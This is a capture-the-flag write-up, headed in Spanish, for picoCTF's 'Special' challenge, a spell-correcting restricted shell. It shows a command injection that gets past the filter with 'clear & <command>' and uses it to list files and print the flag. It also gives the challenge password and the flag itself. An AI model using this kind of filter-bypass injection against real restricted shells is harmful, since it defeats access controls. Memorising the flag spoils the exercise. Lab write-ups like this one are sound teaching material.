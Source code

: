 ## Objetivo
Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.`ssh -p 57062 ctf-player@saturn.picoctf.net`The password is `fd7746b4`
## Solución
```bash
victormcm-picoctf@webshell:~$ ssh -p 57062 ctf-player@saturn.picoctf.net
ctf-player@saturn.picoctf.nets password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Thu Sep 12 03:36:45 2024 from 127.0.0.1
Special$ clear & ls  
Clear & is 
sh: 1: is: not found
sh: 1: Clear: not found
Special$ clear & find .
Clear & find . 
sh: 1: Clear: not found
.
./blargh
./blargh/flag.txt
./.cache
./.cache/motd.legal-displayed
Special$ clear & cat ./blargh/flag.txt
Clear & cat ./blargh/flag.txt 
sh: 1: Clear: not found
picoCTF{5p311ch3ck_15_7h3_w0r57_f578af59}Special$ 
```
## Notas Adicionales

## Referencias